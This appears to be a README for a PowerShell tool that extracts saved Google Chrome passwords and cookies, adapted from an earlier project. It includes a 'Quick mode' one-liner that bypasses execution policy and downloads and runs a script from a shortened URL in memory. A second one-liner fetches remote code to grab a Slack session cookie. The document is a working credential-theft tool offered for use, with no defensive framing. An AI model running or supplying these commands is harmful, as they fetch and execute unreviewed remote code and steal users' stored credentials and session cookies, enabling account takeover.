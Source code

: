 Note: Most of this code comes from https://github.com/et0x/Get-ChromePasswords, I've only mildly tweeked it and added in cookie dumping.

# Get-ChromePasswords
```PowerShell
.Synopsis
  Quickly retrieve Google Chrome passwords using powershell (please note this creates sqlite assemblies in your temp directory)

.PARAMETER Path
  
  The optional path to a non-standard database location for the Google Chrome Login Data database.  Generally found at '<APPDATA>\Local\Google\Chrome\Default\Login Data'

.EXAMPLE
  PS> .\Get-ChromePasswords

  Url                                                                                                    Username                  Password
  ---                                                                                                    --------                  --------
  https://accounts.google.com/signin/challenge/sl/password                                               user1                     password
  ...
```

## Quick mode...

```PowerShell
  C:\> powershell -exec bypass -c "IEX((new-object net.webclient).downloadstring('https://bit.ly/2OMBArT'));Get-ChromeCreds"
```

## Just pull "d" Cookie for use with SlackExtract...

```PowerShell
IEX((new-object net.webclient).downloadstring('https://gist.github.com/clr2of8/71835ab9b63ed829a3d8763bf4ebb003'));Get-CC -SE
```

